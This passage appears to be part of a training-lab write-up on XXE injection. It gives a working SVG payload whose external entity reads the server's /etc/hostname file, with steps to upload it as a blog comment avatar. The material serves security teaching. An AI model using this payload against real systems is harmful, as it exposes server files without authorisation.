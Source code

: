 ![xxe](../img/xxe_18.png)

Afterwards, retrieve the avatar image:

![xxe](../img/xxe_19.png)


```
# Burpsuite solution

- reate a local SVG image with the following content:
    
    `<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>`
- Post a comment on a blog post, and upload this image as an avatar.
- When you view your comment, you should see the contents of the `/etc/hostname` file in your image. Use the "Submit solution" button to submit the value of the server hostname.
```
